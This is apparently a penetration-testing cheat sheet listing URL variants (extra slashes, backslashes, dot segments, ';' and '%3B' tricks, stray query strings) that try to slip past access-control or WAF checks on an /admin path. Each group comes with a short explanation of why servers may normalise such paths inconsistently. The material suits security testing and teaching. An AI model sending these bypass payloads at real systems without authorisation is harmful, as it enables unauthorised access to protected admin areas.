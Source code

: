 # 1. Baseline & Redundant Slash Tricks
Servers often normalize multiple slashes (// or ///) into a single slash, but poorly implemented access control checks may only inspect a canonical path.

```
url.com//admin//
url.com///admin///
url.com/admin\/\/
url.com/admin\\..
url.com//;//admin
url.com//;//admin/
```

## Why it Works

Different frameworks (Nginx, Apache, IIS, etc.) handle consecutive slashes or backslashes differently, sometimes ignoring them, sometimes interpreting them in unexpected ways.





# 2. Dot Slash & Dot Dot Slash
Dot segments like ./ (current directory) or ../ (parent directory) may confuse path normalization if the application’s access control does not sanitize them properly.

```
url.com/./admin/./
url.com/admin/./
url.com/admin/..
url.com/admin/../
url.com/admin/..;/
url.com/admin/..%3B/
url.com/./admin
url.com/admin/.//
```

## Why it Works

The server might treat . and .. in ways the WAF or access control logic does not expect (especially when combined with encoding or extra symbols).




# 3. Query String & Parameter Manipulations
Appending question marks, extra parameters, or weird query strings can sometimes bypass naive path-based checks.
```
url.com/admin/?
url.com/admin??
url.com/admin/??/
url.com/admin?id=1
url.com/admin?id=1&dummy=2
url.com/admin?&   (empty parameter)
```
